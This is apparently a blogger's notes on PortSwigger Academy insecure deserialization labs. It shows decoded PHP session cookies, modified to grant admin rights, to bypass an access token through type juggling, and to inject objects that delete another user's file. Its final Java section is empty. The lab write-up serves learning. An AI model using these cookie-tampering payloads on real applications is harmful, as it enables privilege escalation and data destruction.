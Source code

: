 ```yaml
---
title: PortSwigger | Insecure Deserialization Labs
date: '2024-05-10'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## Insecure Deserialization
 Serialization is a process of converting data into a stream of bytes that is easier to store. To identify insecure deserialization, check all the data passing into an application. Each language has its own way of serializing an object.

These are some short notes I made while solving PortSwigger Academy Insecure Deserialization labs.
##### Manipulating Serialized objects

 -   This is an example of how we can manipulate the attributes within objects to exploit this issue

```php
// A base64 encoded session cookie
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

// when we decode the cookie we find serialized data, which looks like a php serialized object,
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}

// We can change the attribute b:0 to 1 and access admin panel

```


##### Modifying object attributes
- In `php` a string can be equal to integer for example `5 =='5'` will return `true`
- In php `0=='any string'` is also `true`

```php
// We were given a session token which looked like this when decoded :

O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u6ikmj5wteujgew16r49scunlmahe9fn";}

// we changed the access_token value to 0 for the above mentioned string comparison
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}

// As username was changed to admin , we were able to login to the admin account
```


##### Using application functionality to exploit insecure deserialiaztion

```php
// in the /delete-account endpoint a serialized cookie was decoded to following
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"unj1mi9zgc9vpf1t7f8ajelk645tg8hp";s:11:"avatar_link";s:19:"users/wiener/avatar";}

// we changed the path and were able to delete file from another account
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"unj1mi9zgc9vpf1t7f8ajelk645tg8hp";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}


```


##### Injecting Arbitrary Objects
- In `php` whenever object of a class is created , a magic method `_construct()` is automatically invoked
- If magic methods are handling attackers controllable data ,they can become dangerous 

```php
// In this example we are given a serialized session cookie.
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJicnIxcHgybDMxMzF6NHFhczQwYWpob3IwYno4bXQ1YyI7fQ%3d%3d

// decoding the cookie we find deserialized objects
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"brr1px2l3131z4qas40ajhor0bz8mt5c";}

// the page accesses /lib directory with the following endpoint https://0a15009004ab348d81c93e0900060088.web-security-academy.net/libs/CustomTemplate.php

// To access the file we add ~ in the end making it CustomTemplate.php~

// We can change cookie to 
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
// The above results in _destruct method being called to delete morale.txt
```


##### Exploting Java Deserialization with Apache Commons

```php
// in this lab we are presented with apache commons collection whihc is known to be vulnerable to insecure deserialization

```
